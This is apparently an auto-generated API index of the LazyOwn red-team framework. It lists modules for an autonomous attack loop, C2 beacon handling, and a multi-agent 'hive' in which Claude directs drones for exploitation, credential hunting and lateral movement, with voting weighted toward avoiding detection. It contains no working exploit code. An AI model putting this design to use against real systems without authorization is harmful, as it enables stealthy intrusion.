The ``updated_at`` field is overwritten with the current epoch
so callers do not need to maintain it.*
- `set_mode` (line 231) `def set_mode(self, mode)` - *Switch between :data:`MODE_AUTO`, :data:`MODE_APPROVAL`, :data:`MODE_PAUSED`.*
- `pause` (line 240) `def pause(self)` - *Convenience wrapper for ``set_mode(MODE_PAUSED)``.*
- `resume` (line 244) `def resume(self)` - *Convenience wrapper for ``set_mode(MODE_AUTO)``.*
- `require_approval` (line 248) `def require_approval(self)` - *Convenience wrapper for ``set_mode(MODE_APPROVAL)``.*
- `add_veto` (line 252) `def add_veto(self, command_token)` - *Append a first-token name to the veto list.

Raises:
    ValueError: When ``command_token`` is empty.*
- `remove_veto` (line 267) `def remove_veto(self, command_token)` - *Remove a previously vetoed command from the list.*
- `clear_vetoes` (line 275) `def clear_vetoes(self)` - *Remove every entry from the veto list.*
- `set_focus` (line 282) `def set_focus(self, targets)` - *Replace the focus-target list. An empty list disables focus.*
- `propose` (line 290) `def propose(self, command)` - *Daemon-side: register a pending action awaiting approval.

Returns the freshly created :class:`PendingAction` whose
``action_id`` the daemon will use when calling
:func:`wait_for_decision` and :meth:`consume`.*
- `decide` (line 317) `def decide(self, action_id, decision)` - *Operator-side: approve or veto the pending action.

Returns the updated :class:`PendingAction` or ``None`` when
there is no pending action with the supplied id.

Raises:
    ValueError: When ``decision`` is not approved or vetoed.*
- `consume` (line 343) `def consume(self, action_id)` - *Daemon-side: read the final decision and clear the slot.

When the action is still pending but has exceeded its TTL the
returned :class:`PendingAction` carries ``decision =
DECISION_EXPIRED``. The pending slot is always cleared so the
daemon can propose a new action on the next step.

Args:
    action_id: Identifier returned by :meth:`propose`.
    now: Replaceable wall-clock value, in epoch seconds. When
        ``None`` (production default) ``time.time()`` is used.
        Tests pass an explicit value so expiry can be exercised
        deterministically.*
- `is_paused` (line 375) `def is_paused(self)` - *Return ``True`` when the daemon must stop before executing.*
- `is_vetoed` (line 379) `def is_vetoed(self, command)` - *Return ``True`` when the command's first token is in the veto list.*
- `target_in_focus` (line 386) `def target_in_focus(self, target)` - *Return ``True`` when no focus is configured or ``target`` is in focus.*

#### `daemon_health.py`
**Path:** `skills/daemon_health.py`
**File Doc:** *Daemon health monitor — watchdog for the autonomous daemon and C2 listeners.  Writes periodic heartbeat timestamps and provides a simple liveness check so other components (MCP, C2 API, CLI) can detect a crashed daemon.  Health file: ``sessions/daemon_health.json``  Usage: from skills.daemon_health import DaemonHealth, is_daemon_alive  health = DaemonHealth() health.start(interval=5)   # background thread, writes every 5s ... if is_daemon_alive(): print("daemon is running")*

**Classes:**
- `DaemonHealth` (line 94) `class DaemonHealth` - *Background thread that writes a heartbeat timestamp periodically.

Args:
    interval: Seconds between heartbeats.
    health_file: Path to the health JSON file.*

**Functions:**
- `_health_path` (line 32) `def _health_path()`
- `is_daemon_alive` (line 36) `def is_daemon_alive(timeout)` - *Check whether the autonomous daemon wrote a heartbeat recently.

Args:
    timeout: Maximum seconds since last heartbeat before considering dead.

Returns:
    True when a heartbeat exists and was written within ``timeout`` seconds.*
- `daemon_status` (line 58) `def daemon_status(timeout)` - *Return the full daemon health snapshot.

Args:
    timeout: Maximum seconds since last heartbeat.

Returns:
    Dict with ``alive``, ``last_heartbeat``, ``uptime_seconds``,
    ``pid``, ``phase``, ``error_count`` keys.*

**Methods:**
- `__init__` (line 102) `def __init__(self, interval, health_file)`
- `error_count` (line 114) `def error_count(self)`
- `error_count` (line 119) `def error_count(self, value)`
- `phase` (line 124) `def phase(self)`
- `phase` (line 129) `def phase(self, value)`
- `_write_heartbeat` (line 133) `def _write_heartbeat(self)`
- `_loop` (line 147) `def _loop(self)`
- `start` (line 155) `def start(self)` - *Launch the heartbeat thread.*
- `stop` (line 164) `def stop(self)` - *Stop the heartbeat thread.*
- `record_error` (line 175) `def record_error(self)` - *Increment the error counter.*
- `set_phase` (line 180) `def set_phase(self, phase)` - *Update the current daemon phase.*
- `increment_cycles` (line 185) `def increment_cycles(self)` - *Increment the completed cycles counter.*

#### `heartbeat.py`
**Path:** `skills/heartbeat.py`
**File Doc:** *LazyOwn Heartbeat ================= Lightweight background process that drives the event engine. Runs the CSV-tail → rule-match → event-emit loop every N seconds.  Usage: python3 skills/heartbeat.py [--interval 5] [--once]  Options: --interval N   Poll interval in seconds (default: 5) --once         Run one pass and exit (useful for cron/testing) --daemon       Daemonize (write PID to sessions/heartbeat.pid)*

**Functions:**
- `write_pid` (line 53) `def write_pid()`
- `clear_pid` (line 57) `def clear_pid()`
- `is_running` (line 62) `def is_running()` - *Return (is_running, pid). Checks if stored PID is still alive.*
- `run_loop` (line 74) `def run_loop(interval, once)`
- `main` (line 127) `def main()`

#### `__init__.py`
**Path:** `skills/hermes-lazyown/__init__.py`
**File Doc:** *Hermes-LazyOwn integration package.  Provides a Hermes-native MCP server and supporting modules for the LazyOwn red-team framework.*

*No symbols extracted*

#### `claudemd_rules.py`
**Path:** `skills/hermes-lazyown/claudemd_rules.py`
**File Doc:** *Dynamic Claude.md rule generator for the Hermes-LazyOwn integration.  Produces instruction snippets that Hermes injects into the system prompt based on the current engagement phase, discovered services, and credentials.  Follows the Builder pattern: start from base rules, then layer phase-specific and target-specific constraints.*

**Classes:**
- `RuleSetBuilder` (line 14) `class RuleSetBuilder` - *Builds a dynamic rule set string suitable for Hermes system prompt injection.

Usage:
    builder = RuleSetBuilder()
    rules = builder.with_phase("recon").with_target("10.10.11.5").build()
    # rules is a markdown string that can be appended to the system prompt*

**Functions:**
- `generate_rules` (line 185) `def generate_rules(phase, rhost, services, creds_found, is_hermes)` - *Convenience function: build a rule set from parameters.

Args:
    phase: Current kill-chain phase.
    rhost: Active target IP.
    services: Discovered services strings.
    creds_found: Whether credentials are known.
    is_hermes: Whether running inside Hermes.

Returns:
    A markdown string ready for system prompt injection.*

**Methods:**
- `__init__` (line 24) `def __init__(self)`
- `with_phase` (line 31) `def with_phase(self, phase)` - *Set the current engagement phase.*
- `with_target` (line 36) `def with_target(self, rhost)` - *Set the active target IP.*
- `with_services` (line 41) `def with_services(self, services)` - *Set discovered services (e.g., ['http:80', 'smb:445']).*
- `with_creds` (line 46) `def with_creds(self, found)` - *Set whether credentials have been discovered.*
- `with_hermes` (line 51) `def with_hermes(self, is_hermes)` - *Set whether running inside a Hermes session.*
- `build` (line 56) `def build(self)` - *Build and return the complete rule set markdown.*
- `_base_rules` (line 70) `def _base_rules(self)`
- `_phase_rules` (line 82) `def _phase_rules(self)`
- `_service_rules` (line 138) `def _service_rules(self)`
- `_credential_rules` (line 157) `def _credential_rules(self)`
- `_hermes_rules` (line 170) `def _hermes_rules(self)`

#### `config_bridge.py`
**Path:** `skills/hermes-lazyown/config_bridge.py`
**File Doc:** *Configuration bridge: unifies LazyOwn payload.json, environment variables, and fallback defaults into a single read-only configuration source.  Follows the Adapter pattern: downstream code depends on this abstraction, not on payload.json directly.*

**Classes:**
- `ConfigBridgeError` (line 17) `class ConfigBridgeError(Exception)` - *Raised when the configuration bridge cannot resolve a required value.*
- `ConfigBridge` (line 23) `class ConfigBridge` - *Unified configuration accessor for the Hermes-LazyOwn integration.

Reads from (highest priority first):
  1. Environment variables (HERMES_*, LAZYOWN_*)
  2. payload.json
  3. Module-level Defaults

All values are cached on first read. Call refresh() to invalidate cache.*

**Methods:**
- `__init__` (line 35) `def __init__(self, payload_path)`
- `get` (line 42) `def get(self, key, default)` - *Return the value for *key*, or *default* if not found anywhere.*
- `get_required` (line 46) `def get_required(self, key)` - *Return the value for *key*, raising ConfigBridgeError if missing.*
- `get_str` (line 53) `def get_str(self, key, default)` - *Return the string value for *key*.*
- `get_int` (line 58) `def get_int(self, key, default)` - *Return the integer value for *key*.*
- `get_bool` (line 66) `def get_bool(self, key, default)` - *Return the boolean value for *key*.*
- `refresh` (line 75) `def refresh(self)` - *Invalidate all caches so the next read reloads from disk.*
- `active_target` (line 80) `def active_target(self)` - *Return a dict with the minimal target context (rhost, domain, os_id).*
- `attacker_context` (line 90) `def attacker_context(self)` - *Return a dict with the attacker context (lhost, lport, etc.).*
- `is_hermes_session` (line 99) `def is_hermes_session(self)` - *Return True if running inside a Hermes agent session.*
- `_resolve` (line 105) `def _resolve(self, key, default)` - *Resolve a key across env -> payload -> built-in default.*
- `_from_env` (line 117) `def _from_env(self, key)` - *Map payload keys to env var names and return the value, if set.*
- `_from_payload` (line 134) `def _from_payload(self, key)` - *Return the value from payload.json, loading the file if needed.*
- `_load_payload` (line 139) `def _load_payload(self)` - *Lazy-load payload.json with mtime check.*

#### `constants.py`
**Path:** `skills/hermes-lazyown/constants.py`
**File Doc:** *Central constants for the Hermes-LazyOwn integration layer.  All paths, timeouts, and thresholds are derived from environment variables or payload.json. No hardcoded hostnames, ports, or filesystem paths.*

**Classes:**
- `ConfigKeys` (line 12) `class ConfigKeys` - *Payload.json keys referenced across the integration layer.*
- `EnvKeys` (line 35) `class EnvKeys` - *Environment variables used for Hermes integration.*
- `Defaults` (line 45) `class Defaults` - *Fallback defaults when neither payload.json nor env vars provide a value.*
- `PhaseNames` (line 59) `class PhaseNames` - *Kill-chain phase identifiers.

Canonical phases are sourced from ``modules.killchain.KillChain``.
Hermes-specific extensions (postexp, persist, cred, c2) are added
for agent reasoning beyond the core engagement phases.*
- `Paths` (line 102) `class Paths` - *LazyOwn directory layout derived at runtime.*

**Methods:**
- `lazyown_dir` (line 106) `def lazyown_dir()` - *Return the LazyOwn project root directory.*
- `payload_file` (line 115) `def payload_file()` - *Return the path to payload.json.*
- `sessions_dir` (line 120) `def sessions_dir()` - *Return the path to the sessions directory.*
- `scan_file` (line 125) `def scan_file(rhost)` - *Return the expected nmap scan file for a target.*
- `vulns_file` (line 130) `def vulns_file(rhost)` - *Return the expected vulnerability scan file for a target.*
- `world_model_file` (line 135) `def world_model_file()` - *Return the path to world_model.json.*
- `objectives_file` (line 140) `def objectives_file()` - *Return the path to objectives.jsonl.*
- `tasks_file` (line 145) `def tasks_file()` - *Return the path to tasks.json.*
- `soul_file` (line 150) `def soul_file()` - *Return the path to soul.md.*
- `claude_md_file` (line 155) `def claude_md_file()` - *Return the path to CLAUDE.md.*

#### `executor.py`
**Path:** `skills/hermes-lazyown/executor.py`
**File Doc:** *LazyOwn command executor for the Hermes-LazyOwn integration.  Wraps subprocess interaction with the LazyOwn CLI in a robust, timeout-aware, output-sanitizing layer.  Follows the Command pattern: each execution is encapsulated in an ExecutionResult with metadata.*

**Classes:**
- `ExecutionResult` (line 21) `class ExecutionResult` - *Immutable result of a LazyOwn command execution.*
- `LazyOwnExecutor` (line 58) `class LazyOwnExecutor` - *Executes commands against the LazyOwn CLI via subprocess.

Uses a pseudo-terminal when available so that cmd2-based prompts
and ANSI output are handled correctly.*

**Methods:**
- `__init__` (line 24) `def __init__(self, stdout, stderr, returncode, timed_out, duration_ms)`
- `combined` (line 39) `def combined(self)` - *Return stdout and stderr combined.*
- `success` (line 47) `def success(self)` - *Return True if the command exited cleanly and did not time out.*
- `__str__` (line 51) `def __str__(self)`
- `__init__` (line 66) `def __init__(self, lazyown_dir, timeout)`
- `execute` (line 77) `def execute(self, command, timeout)` - *Execute a single LazyOwn command string.

Args:
    command: The command to run (e.g., "lazynmap" or "set rhost 10.10.11.5").
    timeout: Seconds before killing the process. Defaults to constructor value.

Returns:
    An ExecutionResult with stdout, stderr, and metadata.*
- `execute_batch` (line 98) `def execute_batch(self, commands, timeout)` - *Execute multiple commands in a single LazyOwn session.

Args:
    commands: List of command strings.
    timeout: Total timeout for the entire batch.

Returns:
    An ExecutionResult with combined output.*
- `_run_via_subprocess` (line 114) `def _run_via_subprocess(self, command, timeout)` - *Execute via subprocess.Popen with PTY when available.*
- `_run_without_pty` (line 149) `def _run_without_pty(self, argv, command, timeout, env)` - *Run without PTY (fallback for constrained environments).*
- `_run_with_pty` (line 177) `def _run_with_pty(self, argv, command, timeout, env)` - *Run with PTY for proper cmd2 shell handling.*
- `_has_pty` (line 229) `def _has_pty(self)` - *Return True if the platform supports PTY subprocesses.*

#### `hermes_sync.py`
**Path:** `skills/hermes-lazyown/hermes_sync.py`
**File Doc:** *Hermes-native synchronization layer.  Bridges LazyOwn session state with Hermes agent primitives: - todo list sync (Hermes todo tool <-> objectives.jsonl) - checkpoint serialization for resume across turns - delegation hints for parallel intel gathering  Follows the Observer pattern: LazyOwn state changes are observed and reflected into Hermes-native constructs.*

**Classes:**
- `HermesSyncError` (line 21) `class HermesSyncError(Exception)` - *Raised when a sync operation cannot complete.*
- `CheckpointSerializer` (line 27) `class CheckpointSerializer` - *Serialize the current engagement state into a compact checkpoint
that Hermes can inject at the start of a new turn.*
- `ObjectiveTodoSync` (line 73) `class ObjectiveTodoSync` - *Bidirectional sync between LazyOwn objectives and Hermes todo items.

LazyOwn objectives are stored in objectives.jsonl (append-only JSON lines).
Hermes todo items are ephemeral per-turn. This bridge allows the agent
to surface LazyOwn objectives as Hermes todos and ack them back.*
- `DelegationPlanner` (line 145) `class DelegationPlanner` - *Produces structured delegation plans that Hermes can execute via
delegate_task or cronjob.

Given a discovery (e.g., new service found), returns a list of
parallel subtasks suitable for Hermes-native delegation.*

**Methods:**
- `__init__` (line 33) `def __init__(self, sessions_dir)`
- `write` (line 37) `def write(self, state)` - *Write a checkpoint to disk.*
- `read` (line 49) `def read(self)` - *Read the latest checkpoint, or None if absent / stale.*
- `clear` (line 64) `def clear(self)` - *Remove the checkpoint file.*
- `__init__` (line 82) `def __init__(self, objectives_path)`
- `pending_objectives` (line 85) `def pending_objectives(self)` - *Return all pending objectives from objectives.jsonl.*
- `mark_done` (line 106) `def mark_done(self, objective_text)` - *Mark an objective as done by appending a completion record.

LazyOwn objectives.jsonl is append-only; we do not mutate existing
lines. Instead we append a new line with status=done referencing
the original text.*
- `inject_objective` (line 127) `def inject_objective(self, text, priority, notes)` - *Inject a new objective into the LazyOwn queue.*
- `plan_for_service` (line 154) `def plan_for_service(self, service, port, rhost)` - *Return a list of delegation task descriptors for a discovered service.

Each descriptor has keys: goal, context, toolsets.*
- `plan_for_credential` (line 233) `def plan_for_credential(self, cred_type, value, rhost)` - *Return delegation tasks triggered by a newly found credential.*

#### `mcp_server.py`
**Path:** `skills/hermes-lazyown/mcp_server.py`
**File Doc:** *Hermes-native MCP server for LazyOwn.  Provides a compact, namespaced tool surface optimized for Hermes agent context windows. Auto-detects Hermes sessions and adapts descriptions, output compaction, and rule generation accordingly.  Usage: python3 skills/hermes-lazyown/mcp_server.py  This server does NOT replace skills/lazyown_mcp.py; it complements it with a Hermes-optimized subset.*

**Functions:**
- `_get_config` (line 45) `def _get_config()`
- `_get_compactor` (line 52) `def _get_compactor()`
- `_get_executor` (line 60) `def _get_executor()`
- `_get_checkpoint_serializer` (line 68) `def _get_checkpoint_serializer()`
- `_get_objective_sync` (line 75) `def _get_objective_sync()`
- `_get_delegation_planner` (line 82) `def _get_delegation_planner()`
- `_compact` (line 92) `def _compact(result, phase, tool_name)` - *Compact an ExecutionResult based on the current phase.*
- `_try_import_lazyown_module` (line 101) `def _try_import_lazyown_module(module_name)` - *Try to import a LazyOwn module; return None on failure.*
- `_desc` (line 120) `def _desc(base)` - *Return a description string, truncated when running under Hermes.*
- `list_tools` (line 329) `def list_tools()`
- `call_tool` (line 334) `def call_tool(name, arguments)` - *Dispatch incoming tool calls to the appropriate handler.*
- `_handle_tool` (line 346) `def _handle_tool(name, arguments)` - *Route tool names to their handlers.*
- `_core_session_init` (line 395) `def _core_session_init(arguments)` - *Build a structured SITREP from payload.json and session files.*
- `_core_set_config` (line 441) `def _core_set_config(arguments)` - *Update payload.json with a single key-value pair.*
- `_core_run_command` (line 464) `def _core_run_command(arguments)` - *Execute a LazyOwn command and return compacted output.*
- `_core_command_help` (line 480) `def _core_command_help(arguments)` - *Return help for a LazyOwn command via AST extraction (no shell spawn).*
- `_intel_facts_show` (line 512) `def _intel_facts_show(arguments)` - *Show structured facts from session files.*
- `_intel_recommend_next` (line 546) `def _intel_recommend_next()` - *Ask the LazyOwn recommender for next commands.*
- `_intel_searchsploit` (line 562) `def _intel_searchsploit(arguments)` - *Search multiple exploit sources.*
- `_auto_loop` (line 591) `def _auto_loop(arguments)` - *Run the autonomous attack loop.*
- `_auto_inject_objective` (line 611) `def _auto_inject_objective(arguments)` - *Inject an objective into the LazyOwn queue.*
- `_hermes_checkpoint_write` (line 638) `def _hermes_checkpoint_write(arguments)` - *Write a checkpoint for Hermes resume.*
- `_hermes_checkpoint_read` (line 648) `def _hermes_checkpoint_read()` - *Read the latest checkpoint.*
- `_hermes_rules_generate` (line 659) `def _hermes_rules_generate(arguments)` - *Generate dynamic rules for the current context.*
- `_hermes_delegate_plan` (line 677) `def _hermes_delegate_plan(arguments)` - *Generate parallel task descriptors for delegate_task.*
- `_c2_status` (line 706) `def _c2_status()` - *Check C2 server reachability.*
- `_c2_get_beacons` (line 727) `def _c2_get_beacons()` - *List connected beacons via C2 API.*
- `main` (line 751) `def main()`

#### `output_compactor.py`
**Path:** `skills/hermes-lazyown/output_compactor.py`
**File Doc:** *Phase-aware output compaction for the Hermes-LazyOwn integration.  Security tools produce verbose output. Hermes context windows are finite. This module compacts tool output based on the current engagement phase, preserving only the signal and discarding noise.  Follows the Strategy pattern: each phase implements a CompactionStrategy.*

**Classes:**
- `CompactionResult` (line 17) `class CompactionResult` - *Immutable result of a compaction operation.*
- `CompactionStrategy` (line 36) `class CompactionStrategy(ABC)` - *Base class for phase-specific compaction strategies.*
- `ReconCompaction` (line 45) `class ReconCompaction(CompactionStrategy)` - *Recon phase: preserve only open ports, services, and OS guesses.
Strip script output, traceroute, and timing details.*
- `EnumCompaction` (line 80) `class EnumCompaction(CompactionStrategy)` - *Enumeration phase: preserve findings that are new compared to a snapshot.
Deduplicate against known services and only highlight changes.*
- `ExploitCompaction` (line 111) `class ExploitCompaction(CompactionStrategy)` - *Exploitation phase: preserve only success/failure and access level gained.
Discard exploit noise, shell banners, and download progress.*
- `PrivescCompaction` (line 140) `class PrivescCompaction(CompactionStrategy)` - *Privilege escalation phase: preserve vectors found and commands executed.*
- `DefaultCompaction` (line 162) `class DefaultCompaction(CompactionStrategy)` - *Default pass-through with line-cap enforcement.*
- `OutputCompactor` (line 179) `class OutputCompactor` - *Phase-aware output compactor.

Usage:
    compactor = OutputCompactor()
    result = compactor.compact(raw_nmap_output, phase="recon", tool_name="lazynmap")
    print(result.comparted)*

**Methods:**
- `__init__` (line 20) `def __init__(self, compacted, original_lines, compacted_lines)`
- `reduction_ratio` (line 26) `def reduction_ratio(self)` - *Return the ratio of lines removed (0.0 to 1.0).*
- `__str__` (line 32) `def __str__(self)`
- `compact` (line 40) `def compact(self, raw_output, tool_name)` - *Compact *raw_output* and return a CompactionResult.*
- `compact` (line 55) `def compact(self, raw_output, tool_name)`
- `compact` (line 93) `def compact(self, raw_output, tool_name)`
- `compact` (line 124) `def compact(self, raw_output, tool_name)`
- `compact` (line 151) `def compact(self, raw_output, tool_name)`
- `__init__` (line 165) `def __init__(self, max_lines)`
- `compact` (line 168) `def compact(self, raw_output, tool_name)`
- `__init__` (line 196) `def __init__(self, default_max_lines)`
- `compact` (line 200) `def compact(self, raw_output, phase, tool_name)` - *Compact *raw_output* according to *phase*.

Args:
    raw_output: The raw tool output string.
    phase: One of the PhaseNames values.
    tool_name: Optional tool name for context in the summary.

Returns:
    A CompactionResult with the compacted output and metadata.*

#### `hive_mind.py`
**Path:** `skills/hive_mind.py`
**File Doc:** *skills/hive_mind.py — LazyOwn Borg Hive Mind ============================================== Multi-agent cognitive architecture where Claude (MCP) is the Queen/Mainframe and Groq/Ollama agents are satellite drones executing in parallel.  Architecture ------------ HiveMemory      — Unified ChromaDB (semantic) + SQLite (episodic) + Parquet (long-term) QueenBrain      — Orchestrator: plan -> delegate -> synthesize (Claude is here via MCP) DronePool       — Parallel Groq/Ollama agents with specialised roles HiveBus         — In-memory message bus between queen and drones HiveMind        — Top-level coordinator, exposed as MCP tools  Memory layers ------------- working    — current task context (dict in memory, shared via bus) episodic   — SQLite FTS5: events, commands, outcomes per session semantic   — ChromaDB vectors: similarity search across all agents longterm   — Parquet: compressed historical knowledge  Drone roles ----------- recon      — host/port/service discovery exploit    — vulnerability analysis and exploitation analyze    — log/output analysis, pattern detection cred       — credential hunting and cracking lateral    — lateral movement and pivoting report     — synthesis and documentation*

**Classes:**
- `IReadableMemory` (line 145) `class IReadableMemory(ABC)` - *Read-only contract for memory stores.*
- `IWritableMemory` (line 153) `class IWritableMemory(ABC)` - *Write-only contract for memory stores.*
- `IMemoryStore` (line 161) `class IMemoryStore(IReadableMemory, IWritableMemory)` - *Combined readable + writable memory store.

Concrete subclasses (EpisodicStore, SemanticStore, LongtermStore) all
satisfy the Liskov Substitution Principle — they can replace each other
in any context that expects IMemoryStore.*
- `ICommandRunner` (line 171) `class ICommandRunner(ABC)` - *Contract for executing a LazyOwn shell command and returning its output.*
- `EpisodicStore` (line 189) `class EpisodicStore(IMemoryStore)` - *SQLite-backed episodic memory with FTS5 full-text search.

Responsible for: schema creation, insert, FTS keyword recall, forget.
Nothing else.*
- `SemanticStore` (line 349) `class SemanticStore(IMemoryStore)` - *ChromaDB-backed vector similarity store.

Falls back to the provided episodic_fallback when ChromaDB is unavailable.
Responsible for: embedding, upsert into ChromaDB, similarity recall.
Nothing else.*
- `LongtermStore` (line 506) `class LongtermStore(IMemoryStore)` - *Read-only keyword recall from Parquet knowledge files.

store() is a no-op (Parquet files are managed by lazyown_parquet_db).
Responsible for: delegating keyword search to lazyown_parquet_db.
Nothing else.*
- `HiveMemory` (line 571) `class HiveMemory` - *Unified three-layer memory shared across all hive agents.

Composes EpisodicStore, SemanticStore, and LongtermStore.
Handles cross-layer deduplication in recall().

Dependency Inversion: concrete backends are injected via __init__.
Open/Closed: add new backends by passing extra IMemoryStore instances.*
- `HiveMessage` (line 717) `class HiveMessage` - *A message on the hive bus.*
- `HiveBus` (line 728) `class HiveBus` - *Simple thread-safe in-process message bus.
Agents subscribe to their own mailbox (recipient == agent_id or "*").

Single Responsibility: only message passing.*
- `ConsensusVote` (line 902) `class ConsensusVote` - *A single vote cast by a drone role during consensus evaluation.*
- `ConsensusProtocol` (line 911) `class ConsensusProtocol` - *Multi-drone voting gate for high-risk actions.

Before a high-risk task (exploit, lateral, credential dump) is dispatched,
the queen polls a panel of virtual voters — one per specialised role — and
only proceeds when the weighted approval meets the required quorum.

Voting model
------------
- stealth_specialist : votes based on detection risk (approves if risk < threshold)
- privesc_hunter     : votes based on whether current access level justifies the move
- architect          : votes based on strategic alignment with current phase

The detection risk estimate uses DetectionRiskAssessor when available,
falling back to a static heuristic table.

Design
------
- Single Responsibility : voting logic only; no drone spawning
- Open/Closed           : new voter roles added without modifying existing code
- Dependency Inversion  : DetectionRiskAssessor injected, not constructed here*
- `DroneState` (line 1066) `class DroneState` - *Mutable state record for a single drone instance.*
- `DroneAgent` (line 1083) `class DroneAgent` - *A satellite agent running on Groq or Ollama.
Reports back to hive memory on completion.

Dependency Inversion: accepts an optional ICommandRunner for testability.*
- `QueenBrain` (line 1289) `class QueenBrain` - *The queen orchestrates the hive:
  1. plan(goal)          — decompose into drone tasks
  2. dispatch(tasks)     — spawn drones in parallel
  3. collect(ids)        — wait and aggregate results
  4. synthesize(results) — final summary written to hive memory

Single Responsibility: orchestration only.
Dependency Inversion: memory, bus, pool all injected.*
- `DroneStateStore` (line 1481) `class DroneStateStore` - *SQLite persistence layer for DroneState records.

Responsible for: creating the drone_states table, upsert, load, and
marking interrupted states on restart. Nothing else.

Uses the same hive_memory.db as EpisodicStore but opens its own
connection to avoid lock contention.

On process restart, any drone whose status was 'queued' or 'running'
is marked 'interrupted' so callers can re-queue them explicitly.*
- `DronePool` (line 1661) `class DronePool` - *Registry of all spawned drones with their state and threads.

Single Responsibility: spawn, track, and query drones.
Dependency Inversion: accepts optional DroneStateStore for persistence.

On construction, calls state_store.mark_interrupted() so any in-flight
drones from a previous process are cleanly labelled. Then loads the full
history into _history for status queries without re-running them.*
- `HiveMind` (line 1812) `class HiveMind` - *Top-level hive coordinator.
Singleton — use get_hive() to obtain the instance.*

**Functions:**
- `_get_embed_model` (line 108) `def _get_embed_model()` - *Return the embedding model. Imports sentence_transformers + loads model
on first call. Thread-safe. Returns None if unavailable.*
- `build_default_hive_memory` (line 558) `def build_default_hive_memory(db_path)` - *Factory that creates HiveMemory with the default three-layer backend.

Callers that need a custom configuration can construct each store
explicitly and pass them to HiveMemory directly.*
- `_classify_objective` (line 1277) `def _classify_objective(goal)` - *Return one of 'ad', 'exploit', 'enum', 'generic' based on goal keywords.*
- `get_hive` (line 1911) `def get_hive()` - *Return the process-wide HiveMind singleton, creating it if necessary.*
- `mcp_hive_spawn` (line 1926) `def mcp_hive_spawn(goal, role, n_drones, backend, max_iterations, api_key)` - *Spawn one or more hive drones for a goal.
If n_drones > 1 or role == 'auto', queen plans and dispatches a full squad.*
- `mcp_hive_status` (line 1976) `def mcp_hive_status()` - *Return full hive status: active drones, memory stats, queen mailbox.*
- `mcp_hive_recall` (line 1981) `def mcp_hive_recall(query, top_k)` - *Semantic + episodic + longterm recall from hive memory.*
- `mcp_hive_plan` (line 1995) `def mcp_hive_plan(goal, n_drones)` - *Queen generates task decomposition without spawning drones.*
- `mcp_hive_result` (line 2004) `def mcp_hive_result(drone_id)` - *Get result from a specific drone.*
- `mcp_hive_collect` (line 2010) `def mcp_hive_collect(drone_ids_csv, goal)` - *Wait for drones to finish and return synthesized result.
drone_ids_csv: comma-separated drone IDs.*
- `mcp_hive_forget` (line 2021) `def mcp_hive_forget(older_than_hours, topic)` - *Prune hive memory. Removes entries older than N hours, optionally filtered by topic.*
- `mcp_hive_recover` (line 2027) `def mcp_hive_recover(backend, api_key, max_iterations)` - *Re-queue all drones that were interrupted by a previous process crash/restart.
Returns the list of new drone_ids that were re-spawned.*
- `_cli` (line 2074) `def _cli()`

**Methods:**
- `recall` (line 149) `def recall(self, query, top_k)` - *Return top_k items matching query.*
- `store` (line 157) `def store(self, content)` - *Persist content and return an opaque event_id.*
- `run` (line 175) `def run(self, command, timeout)` - *Execute command within timeout seconds and return text output.*
- `name` (line 180) `def name(self)` - *Human-readable identifier for this runner.*
- `__init__` (line 215) `def __init__(self, db_path)`
- `_connect` (line 220) `def _connect(self)`
- `store` (line 235) `def store(self, content, agent_id, role, event_type, meta, session_tag)` - *Insert a row into hive_events and return event_id.*
- `_sanitize_fts` (line 266) `def _sanitize_fts(query)` - *Strip FTS5 special chars (dots, colons, brackets, etc.) that cause syntax errors.*
- `recall` (line 274) `def recall(self, query, top_k, role, event_type)` - *Keyword search via FTS5. Optionally filter by role or event_type.*
- `stats` (line 322) `def stats(self)` - *Return row counts for status reporting.*
- `forget` (line 329) `def forget(self, older_than_hours, topic)` - *Delete old or topic-matching rows. Returns rows deleted.*
- `__init__` (line 358) `def __init__(self, chroma_dir, episodic_fallback)`
- `_init_chroma` (line 366) `def _init_chroma(self, chroma_dir)`
- `available` (line 380) `def available(self)` - *True when ChromaDB is operational.*
- `store` (line 386) `def store(self, content, agent_id, role, event_type, meta, session_tag, event_id)` - *Add a document to ChromaDB. Returns the event_id used.*
- `recall` (line 434) `def recall(self, query, top_k, where)` - *Vector similarity search. Falls back to episodic FTS if unavailable.*
- `count` (line 477) `def count(self)` - *Return number of vectors stored.*
- `_embed` (line 488) `def _embed(self, text)`
- `store` (line 515) `def store(self, content)` - *Parquet store is read-only from here. Returns empty string.*
- `recall` (line 519) `def recall(self, query, top_k)` - *Keyword search across Parquet knowledge files.*
- `__init__` (line 582) `def __init__(self, stores, episodic, semantic, longterm)`
- `store` (line 596) `def store(self, content, agent_id, role, event_type, meta, session_tag)` - *Store content in all writable layers.

Returns the event_id from the first store (episodic).
The same id is forwarded to semantic so ChromaDB and SQLite stay aligned.*
- `recall_episodic` (line 633) `def recall_episodic(self, query, top_k, role, event_type)` - *Keyword search across hive episodic memory.*
- `recall_semantic` (line 647) `def recall_semantic(self, query, top_k, where)` - *Vector similarity search in ChromaDB.*
- `recall_longterm` (line 660) `def recall_longterm(self, query, top_k)` - *Keyword search across Parquet knowledge files.*
- `recall` (line 668) `def recall(self, query, top_k)` - *Unified recall: semantic (ChromaDB) + episodic (SQLite) + longterm (Parquet).
Deduplicates by content hash.*
- `stats` (line 694) `def stats(self)` - *Return combined statistics from all layers.*
- `forget` (line 704) `def forget(self, older_than_hours, topic)` - *Prune old or topic-matched entries. Returns number pruned.*
- `__init__` (line 736) `def __init__(self)`
- `publish` (line 740) `def publish(self, msg)` - *Deliver msg to recipient mailbox (and to "*" broadcast).*
- `receive` (line 746) `def receive(self, agent_id, max_msgs)` - *Drain mailbox for agent_id (includes broadcast).*
- `ack_broadcast` (line 754) `def ack_broadcast(self, agent_id, msg_id)` - *Mark a broadcast message as seen by agent_id (minimal bus — no-op).*
- `pending_count` (line 758) `def pending_count(self, agent_id)` - *Count messages waiting for agent_id.*
- `__init__` (line 943) `def __init__(self, risk_assessor)`
- `evaluate` (line 946) `def evaluate(self, role, goal)` - *Run the consensus vote for the given (role, goal) pair.

Returns
-------
(approved: bool, votes: List[ConsensusVote], summary: str)*
- `_stealth_vote` (line 975) `def _stealth_vote(self, detection_risk)`
- `_privesc_hunter_vote` (line 989) `def _privesc_hunter_vote(role, goal)`
- `_architect_vote` (line 1004) `def _architect_vote(role, goal)`
- `_estimate_detection_risk` (line 1032) `def _estimate_detection_risk(self, role, goal)`
- `_weighted_approval` (line 1041) `def _weighted_approval(votes)` - *Weight votes by role importance:
  stealth_specialist : 0.40 (detection risk is paramount)
  privesc_hunter     : 0.30 (operational expertise)
  architect          : 0.30 (strategic alignment)*
